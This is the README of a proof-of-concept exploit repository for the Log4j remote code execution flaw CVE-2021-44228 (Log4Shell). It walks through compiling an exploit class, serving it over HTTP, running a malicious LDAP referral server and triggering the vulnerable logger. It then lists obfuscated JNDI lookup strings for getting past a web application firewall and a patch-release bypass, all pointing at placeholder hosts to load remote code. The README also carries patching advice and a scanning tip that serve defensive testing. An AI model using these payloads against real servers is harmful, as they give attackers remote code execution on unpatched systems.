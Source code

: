 # CVE-2021-44228(Apache Log4j Remote Code Execution）

> [all log4j-core versions >=2.0-beta9 and <=2.14.1](https://logging.apache.org/log4j/2.x/security.html)

The version of 1.x have other vulnerabilities, we recommend that you update the latest version.

[Security Advisories / Bulletins linked to Log4Shell (CVE-2021-44228)](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592)

### Usage:

download this project, compile the exploit code [blob/master/src/main/java/Exploit.java](Exploit.java), and start a webserver allowing downloading the compiled binary.

```
git clone https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce.git
cd CVE-2021-44228-Apache-Log4j-Rce

javac Exploit.java

# start webserver
# For Python2
python -m SimpleHTTPServer 8888
# For Python3
python3 -m http.server 8888

# make sure python webserver is running the same directory as Exploit.class, to test
  curl -I 127.0.0.1:8888/Exploit.class
```

download another project and run *LDAP server implementation returning JNDI references**
[https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java)
```
git clone https://github.com/mbechler/marshalsec.git
cd marshalsec
# Java 8 required
mvn clean package -DskipTests
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"
```

build and run the activation code (simulate an log4j attack on a vulnerable java web server) [blob/master/src/main/java/log4j.java](log4j.java), and your calculator app will appear.
```
cd CVE-2021-44228-Apache-Log4j-Rce
mvn clean package
java -cp target/log4j-rce-1.0-SNAPSHOT-all.jar log4j

# expect the following
# 1. calculator app appear
# 2. in ldapserver console,
#  Send LDAP reference result for Exploit redirecting to http://127.0.0.1:8888/Exploit.class
# 3. in webserver console,
#  127.0.0.1 - - [....] "GET /Exploit.class HTTP/1.1" 200 -


```



Tips:
> Do not rely on a current Java version to save you. Update Log4 (or remove the JNDI lookup). Disable the expansion (seems a pretty bad idea anyways).

### Bypass rc1
For example:
```
${jndi:ldap://127.0.0.1:1389/ badClassName}
```

### Bypass WAF
```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```
> Don't trust the web application firewall.

### Details Of Vuln
Lookups provide a way to add values to the Log4j configuration at arbitrary places.

[Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html)

> The methods to cause leak in finally

```
LogManager.getLogger().error()
LogManager.getLogger().fatal()
```

### Simple Check Method
If you want to do black-box testing， I suggest you do passive scanning.

[BurpLog4jScan](https://github.com/tangxiaofeng7/BurpLog4j2Scan)

Have Fun!!!
![BurpLog4jScan.png](https://github.com/tangxiaofeng7/BurpLog4j2Scan/blob/master/img/result.png)

### Stargazers over time
[![Stargazers over time](https://starchart.cc/tangxiaofeng7/apache-log4j-poc.svg)](https://starchart.cc/tangxiaofeng7/apache-log4j-poc)
